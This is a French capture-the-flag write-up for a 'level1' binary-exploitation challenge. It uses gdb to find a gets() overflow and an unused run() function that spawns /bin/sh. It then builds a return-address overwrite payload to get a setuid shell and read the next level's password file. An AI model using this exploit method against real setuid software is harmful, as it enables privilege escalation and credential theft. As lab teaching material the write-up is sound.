 ## Comportement
- J'ai des droits `level1` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1*`
En exécutant le binaire (`./level1`), on observe:
- qu'il attend un input de notre part.
- qu'il exit juste après notre input.
- qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level1`) on observe:
- La fonction appelle "gets" qui n'est pas sécurisé en cas de buffer overrun (voir `man gets`).
  ```shell
  (gdb) disas main
  ...
  0x08048490 <+16>:	call   0x8048340 <gets@plt>
  ...
  ```
- Il existe une fonction `run()` qui n'est pas appelé dans `main()` : 
  ```shell
  (gdb) i functions
  ...
  0x08048444  run
  0x08048480  main
  ...
  ```
- Dans la fonction `run()` il y a un appel système : 
  ```shell
  (gdb) disas main
  ...
  0x08048472 <+46>:	movl   $0x8048584,(%esp) # argument envoyé a la fonction system() en dessous
  0x08048479 <+53>:	call   0x8048360 <system@plt>
  ...
  ```
- Il suffit d'examiner l'adresse du paramètre envoyé a la fonction `system()` 
(situe une ligne au dessus) pour constater qu'on execute `/bin/sh`. 
Ce qui est une technique courante pour lancer un shell interactif. 
  ```shell
  (gdb) x/s 0x8048584
  0x8048584:	 "/bin/sh"
  ```


## Résolution
- On va overflow la valeur de la commande `ret` avec l'adresse de la fonction `run()` pour que quand la 
commande `ret()` sera execute, c'est `run()` qui sera appelée et donc notre appel système sera execute
ouvrant ainsi un shell interactif.
- Il faut trouver l'offset de l'`eip` (le pointeur du jeu d'instruction en cours) pour savoir de 
combien il faut overflow le buffer. Dans `main()` on a vu que le buffer est de 80 bytes. 
(`0x08048486 <+6>:		sub    esp,0x50`). On obtient bien un segfault : 
```shell
$ python -c 'print "A" * 80' | ./level1
Segmentation fault (core dumped)
```
- Maintenant il faut gérer le padding, c'est a dire soustraire suffisamment de bytes pour placer l'adresse 
de la fonction `run()` (`0x08048444`) que l'on veut insérer. Elle prend 4 bytes. On obtient encore un 
segfault, cette fois ce n'est pas normal car `run()` aurait du être appelé. 
```shell
$ python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1
Segmentation fault (core dumped)
```
- En regardant bien la stack, on voit que l'adresse est inscrite en little endian, il faut donc l'inverser.
La fonction `run()` ets bien appelé ! On le voit grace au print "Good... Wait what?" mais ou est le shell ? 
```shell
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- Le shell a bien ete ouvert mais il exit car son process parent exit. Il existe un moyen de laisser stdin open (en utilisant `- |`). On va donc inscrire le payload dans un fichier, puis faire un `cat` de ce fichier en utilisant notre trick : 
```shell
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1
Good... Wait what?
```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level2`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/level2/.pass`)
  - quitter le shell (`exit`)
  - et passer au level2 (`su level2`) en renseignant ce password.
